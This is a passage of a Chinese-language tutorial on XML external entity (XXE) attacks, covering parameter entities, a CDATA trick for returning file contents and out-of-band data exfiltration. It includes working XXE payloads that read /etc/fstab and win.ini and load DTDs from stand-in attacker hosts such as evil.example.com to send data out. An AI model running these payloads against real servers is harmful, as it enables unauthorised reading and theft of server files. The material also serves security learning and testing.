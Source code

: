 当我们的恶意xml被成功解析，这时我们有可能面临两个问题：

```
一，数据未闭合导致嵌入失败（比如只存在<?php）
二，服务器进行限制导致数据不能返回。

```

引入参数实体之后，这两个问题就能得到解决。

参数实体以%开头 我们使用参数实体只需要遵循两条原则：

参数实体只能在DTD声明中使用。 参数实体中不能再引用参数实体。

CDATA转义的妙用
----------

CDATA部件；在CDATA部件的所有内容都会被XML解析器忽略，即CDATA部件里面的内容紧紧这是一个字符串文本的作用。一个 CDATA 部件以`"<![CDATA["`标记开始，以`"]]>"`标记结束。那么我们能不能构造一个这样的页面来返回那些文件呢

```
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE roottag [
  <!ENTITY % start "<![CDATA[">
  <!ENTITY % goodies SYSTEM "file:///etc/fstab">
  <!ENTITY % end "]]>">
  <!ENTITY % dtd SYSTEM "http://evil.example.com/combine.dtd">
%dtd;
]>
<roottag>&all;</roottag>

```

combine.dtd如下

```
<?xml version="1.0" encoding="UTF-8"?>
<!ENTITY all "%start;%goodies;%end;">

```

前面也提到过，当xml parsers会把xml的参数实体`% start % end`马上解释，由于没有闭合 就会抛出错误，那么这里的%start为何能正常地解析呢？ 这是因为参数实体的引用不需要在xml文档解析的时候保持xml闭合，这样就绕过了限制。

通过这样我们就能读取所有数据了（base64编码也可）

外带数据bypass回显限制
--------------

另一种使用参数实体的手段就是外带数据了。

利用参数实体，我们能够把需要读取的文件通过一些协议（http ftp等）发送到我们的服务器上，那么通过日志查看就能获取数据了 我们可以这么构造

```
<?xml version="1.0" encoding="utf-8"?> <!DOCTYPE roottag [
<!ENTITY % file SYSTEM "file:///c:/windows/win.ini">
<!ENTITY % dtd SYSTEM "http://example.com/evil.dtd"> %dtd;]>
<roottag>&send;</roottag>

```
